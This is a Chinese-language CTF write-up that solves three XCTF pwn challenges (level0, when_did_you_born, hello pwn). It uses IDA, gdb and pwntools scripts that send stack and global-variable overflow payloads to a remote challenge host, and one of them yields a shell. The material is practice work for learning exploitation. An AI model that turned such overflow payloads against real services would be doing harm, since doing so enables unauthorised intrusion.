

# PWN Writeup

- 做题环境：
  - Windows10
  - ubuntu 16.04
- 使用工具
  - IDA Pro 7.0
  - gdb 7.11.1

## XCTF-level0

- 首先查看题目附件的文件信息

  ```bash
  # 在Ubuntu中使用file level0指令查看，这里下载固件后给文件进行了重命名成level0
  file level0
  # 输出
  ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8dc0b3ec5a7b489e61a71bc1afa7974135b0d3d4, not stripped
  ```

  可以看到，这是一个64bit 小端序的可执行文件

- 在 windows10 上使用 ```IDA Pro``` 加载``` level0``` 查看其函数等信息

  - 在函数列表中找到 ```main()``` 函数，**F5** 反汇编发现函数调用```vulnerable_function()```，双击查看函数内部执行的指令。发现函数中给局部变量 ``buf``分配大小为0x80，但是```read()```函数可接受的大小为0x200，所以需要使用输入进行缓冲区溢出的利用。 

    
    
    
  
  - 查看函数列表中的其他函数，```callsystem()```调用了system函数，并且参数是```bin/shell```，所以尝试利用缓冲区溢出执行```callsystem()```函数获得shell权限
  
    
  
- 根据上述分析，使用 gdb 获取利用缓冲区溢出所需数据

  - 首先判断触发漏洞的具体地址（根据上述分析，结合函数调用栈结构，推测需要输入```0x80+0x8```大小的字符串即可覆盖```vulnerable_function()```返回地址。使用能生成容易8字节长子串都是唯一的字符串的脚本生成255个长度为8的字符串

    ```python
    import random
    import string
    file = open('1.txt','w')
    for i in range(1):
         random_str = ''.join(random.sample(string.digits *5 +string.ascii_letters*4,255))
    print(random_str)
    # 生成字符串
    #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
    ```

  - 而后使用 gdb 调试 level0

    -  gdb 加载 level0

        ```bash
        # gdb 加载 level0
        gdb level0
        ```
        
    - 在vulnerable_function()
        ```bash
        # 在vulnerable_function()处下断点
        b*vulnerable_function
        # r 指令运行
        r
        ```
    
  - 使用 n 指令是程序从断点处继续向下运行，直到调用 read() 函数时，gdb 会要求输入，这时输入刚刚生成的长字符串，得到如下结果
  
   
        
   从上图中可以看到，RBP的值被覆盖
  
  -  使用如下脚本查看覆盖RBP的字符串在输入字符串中的位置，发现是第128个。所以证明了之前的推测。
    
        ```python
        info="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"
        print(info.find("zaMxnL9P"))
      ```
    
  -  查看```callsystem()```函数的地址
    
        ```bash
        b*callsystem
        # Breakpoint 2 at 0x400596
        ```
  
- 根据上述结果，触发漏洞的payload应该是```a*0x80+b*0x8+0x400596```，使用```pwntools```触发实现漏洞利用拿到shell权限。
  
    ```python
    #coding=utf8
    from pwn import *
    #context.log_level = 'debug'
    p = remote("220.249.52.133",37546)
    payload = ''
    payload += 0x80*'A'+0x08*'B'
    payload += p64(0x400596)
    p.sendline(payload)
    p.interactive()
    ```
  
    
  
  ​      
  

## XCTF-when_did_you_born

- 首先查看文件信息

  ```bash
  # 查看文件信息
  file when_did_you_born
  ```

  

- 查看```main()```函数，发现只要使得函数执行到`else` 然后进入```if(v5==1926)```就可以获得flag

  

- 现在我们需要通过输入的v4完成这个操作

  通过在```IDA Pro```上点击v4和v5可以跳转到main函数的栈区，var_20对应v4，var_18对应v5

  

  ```python
  from pwn import *
  #  220.249.52.133:59989
  r=remote("220.249.52.133",59989)
  payload='a'*(0x20-0x18)+p64(1926)
  r.recvuntil("What's Your Birth?\n")
  r.sendline("0")
  r.recvuntil("What's Your Name?\n")
  r.sendline(payload)
  print r.recv()
  ```

  

## XCTF-hello pwn

- 首先查看文件信息

  

- 然后使用IDA Pro 查看函数

  ```bash
  # main()函数
  __int64 __fastcall main(__int64 a1, char **a2, char **a3)
  {
    alarm(0x3Cu);
    setbuf(stdout, 0LL);
    puts("~~ welcome to ctf ~~     ");
    puts("lets get helloworld for bof");
    read(0, &unk_601068, 0x10uLL);
    if ( dword_60106C == 1853186401 )
      sub_400686();
    return 0LL;
  }
  
  # sub_400686
  __int64 sub_400686()
  {
    system("cat flag.txt");
    return 0LL;
  }
  ```

  所以要做的是使得函数执行到```if ( dword_60106C == 1853186401 )```处

- 根据上述分析，需要通过read()函数的输入，覆盖```dword_60106C ```

  

  ```python
  from pwn import *
  r=remote("220.249.52.133",41848)
  payload='a'*(0x6c-0x68)+p64(1853186401)
  r.recvuntil("lets get helloworld for bof\n")
  r.sendline(payload)
  r.interactive()
  ```

  